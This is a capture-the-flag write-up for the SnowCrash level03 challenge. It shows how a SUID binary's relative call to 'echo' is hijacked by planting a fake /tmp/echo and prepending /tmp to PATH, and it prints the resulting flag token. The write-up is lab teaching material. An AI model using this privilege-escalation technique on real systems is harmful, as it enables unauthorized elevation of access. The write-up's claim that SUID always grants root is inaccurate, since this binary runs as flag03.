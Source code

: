 In home directory we have executable file with SUID attribute:
```shell
level03@SnowCrash:~$ ls -la level03 
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03 
Exploit me
```
Using ltrace - a library call tracer.
ltrace is a program that simply runs the specified command
until  it  exits.   It  intercepts and records the dynamic
library calls which are called by the executed process and
the  signals  which  are received by that process.
```shell
level03@SnowCrash:~$ ltrace ./level03 
__libc_start_main(0x80484a4, 1, 0xbffff6e4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                               = 2003
geteuid()                               = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                  = 0
+++ exited (status 0) +++
```
We can see here 
<system("/usr/bin/env echo Exploit me"Exploit me>
that echo command is called without absolute path. This is a common path vulnerability. 

Real echo command can be changed with fake one.
When the setuid attribute is set on a file, the normal user who executes the file is elevated to the root.
End we can call the getflag command from fake echo file with root privilege.
```shell
level03@SnowCrash:~$ echo getflag > /tmp/echo 
level03@SnowCrash:~$ chmod +x /tmp/echo
```
Changing the PATH to run fake echo command before real echo
```shell
level03@SnowCrash:~$ export PATH="/tmp:$PATH"
level03@SnowCrash:~$ echo $PATH
/tmp:/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
```
Now executeing our file:
```shell
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
